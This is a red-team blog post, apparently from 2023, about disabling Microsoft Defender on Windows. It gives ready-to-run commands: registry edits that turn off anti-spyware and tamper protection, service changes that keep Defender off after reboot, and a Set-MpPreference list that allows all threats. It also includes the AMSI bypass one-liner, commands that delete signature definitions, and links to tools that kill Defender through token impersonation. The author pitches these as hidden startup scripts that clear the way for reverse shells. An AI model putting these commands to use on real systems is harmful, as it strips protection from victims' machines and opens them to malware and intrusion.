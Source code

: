 ```yaml
---
author: "Jann Moon"
title: "Defender Defeated - Part II: Aegis Unbound"
description: "Further Armaments in the eternal war against Microsoft's Persistant Anti-Virus for Offsec Wizards."
tags: ["AV Bypass", "Defender", "Powershell", "Red Team"]
date: 2023-07-10
thumbnail: floral9.jpg
---
```


In this second chapter on how to overcome the despotic guardian known as Microsoft Defender, lets continue on the chronicle of arcane knowledge and subtle sorcery.  In the last article, I regaled you with tales of frustration and perseverance, sharing the humble beginnings of my journey and described the labyrinthine ways of hiding paths in the shadows, as well as harnessing the very tools bundled within the Defender's arsenal to summon forbidden executables.  

Now, dear reader, let us delve deeper into the intricate tapestry of Defender bypasses, to unearth the secrets needed to disabling its watchful eye.  So gather 'round, fellow seekers of arcane wisdom, as we continue to unravel the ancient scrolls and unlock the gates that stand between us and triumph over Microsoft Defender's steadfast defenses.

## Clandestine Manipulation of Local Group Policy Editor (gpedit.msc)

Hiding things from Defender via setting it to ignore paths is a bit more subtly, but if you'd rather just expunge the lifeforce from it, follow along.  

If "gpedit.msc" is not available, you can run the following to try to install it.

```cmd
C:/ > FOR %F IN ("%SystemRoot%\servicing\Packages\Microsoft-Windows-GroupPolicy-ClientTools-Package~*.mum") DO (DISM /Online /NoRestart /Add-Package:"%F")
C:/ > FOR %F IN ("%SystemRoot%\servicing\Packages\Microsoft-Windows-GroupPolicy-ClientExtensions-Package~*.mum") DO (DISM /Online /NoRestart /Add-Package:"%F")
```

*Requires RDP or VNC Access*

- Run "gpedit.msc", which will open the "Local Group Policy Editor". 
- Browse to  *Computer Configuration* >> *Administrative Templates* >> *Windows Components* >> *Microsoft Defender Antivirus* >> *Real-time Protection* 

- Similarly, you can also set *Turn off Microsoft Defender Antivirus* to *Enabled* in the same section.


### Window's Defender Killing Tools

*DefenderSwitch* by last-byte uses a similar technique of shutting off Defender, though more discretely via usage of the Win32 API.  The code has been updated by APTortellini and is linked below.

[DefenderSwitch by APTortellini on Github](https://github.com/APTortellini/DefenderSwitch)


*StopDefenderService* by dosxuz is a C# tool that uses the token impersonation technique to shut off Defender.  Since Defender's WinDefend process can only be turned off with the privileges of the TrustedInstaller group.  Therefore it steals the token from the TrustedInstaller service and impersonates it - allowing the service to be killed.  

[StopDefenderService by dosxuz](https://github.com/dosxuz/DefenderStop)

*Defeat-Defender* by swagkarma is a batch script that gets rid of the Defender suite eternally.  Thi s includes Windows FireWall
Windows Smart Screen, Firewall, Ransomware Protection and more.

[Defeat-Defender by swagkarma on Github](https://github.com/swagkarna/Defeat-Defender-V1.2.0)

Here's a Powershell script by fiercebrute that also completely removes Defender irreversibly via Set-MpPreference, editing the registry and deleting crucial Defender files.
[fiercebrute gist](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)


## Powershell's Registry-Altering Incantations 

To disable most anti-virus features and services via directly changing registry entries, you can use these Powershell commands.  This requires SYSTEM privileges; if not available, use [StopDefenderService by dosxuz](https://github.com/dosxuz/DefenderStop) mentioned above.

```ps
# Kill "Cloud-Delivered Protections" feature
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" -Name SpyNetReporting -Value 0

# No more "Automatic Sample submission"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" -Name SubmitSamplesConsent -Value 0

# Un-Tamper Un-protection
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Features" -Name TamperProtection -Value 4
        
# The big one
New-ItemProperty -Path “HKLM:\SOFTWARE\Microsoft\Windows Defender” -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1

New-ItemProperty -Path “HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender” -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

Generally, the Defender services can't be stopped, just disabled, therefore they'll return on next restart of the machine.  You could put the following commands into a ".ps1" script that is set to run at startup.  For persistence, this script could be followed by downloading and executing a shell, opening RDP or any preferred method.

```ps
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WdNisSvc" -Name Start -Value 4
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WinDefend" -Name Start -Value 4
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Sense" -Name Start -Value 4
```

For your enjoyment, here is a pretty comprehensive list of all the Defender features you probably don't want complicating your reverse shells from executing succesfully.  If you want to use these in a hidden script that runs at startup, make sure to add `-ErrorAction SilentlyContinue` at the end of each line.

```ps
Set-MpPreference -LowThreatDefaultAction Allow 
Set-MpPreference -ModerateThreatDefaultAction Allow 
Set-MpPreference -HighThreatDefaultAction Allow
Set-MpPreference -DisableArchiveScanning 1 
Set-MpPreference -DisableRemovableDriveScanning 1 
Set-MpPreference -DisableBlockAtFirstSeen 1 
Set-MpPreference -DisableBehaviorMonitoring 1 
Set-MpPreference -DisableIntrusionPreventionSystem 1 
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan 1 
Set-MpPreference -DisableScanningNetworkFiles 1
Set-MpPreference -DisableScriptScanning 1 
Set-MpPreference -DisableIOAVProtection 1 
Set-MpPreference -DisableRealtimeMonitoring 1 
Set-MpPreference -DisableRealTimeMonitoring 1
```

Neat way to kill AMSI, for safety and fun.

```ps
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"

```

Finally, you can remove the signatures that Defender uses to identify malicious files.  If the computer has internet access, they will be downloaded again, almost immediately, so this is only effective within internal protected VPNs. 

```ps
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
```
or in cmd:
```cmd
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Security Token Manipulation, Impersonation and Humiliation

In the spring of 2022, these new techniques emerged that effectively trap antimalware services within a sandbox, cutting off their access from everything else on the computer.  They run at full capacity and keep their fileless environments free of malware.  

Tools like [TokenStomp by MartinIngesen](https://github.com/MartinIngesen/TokenStomp), [KillDefender by pwn1sher](https://github.com/pwn1sher/KillDefender) and [plackyhacker's SandboxDefender](https://github.com/plackyhacker/SandboxDefender) do some very clever and creative things in their code but I'll do my best to summarize the basics.

	1. Enable `SeDebugPrivilege` in the current user's token
	2. Uses Win32 API functions to find Defender's token, then disable all of its privileges
	3. Set Defender's token integrity level to "Untrusted"


[TokenStomp by MartinIngesen](https://github.com/MartinIngesen/TokenStomp)

[KillDefender by pwn1sher](https://github.com/pwn1sher/KillDefender) 

[plackyhacker's SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
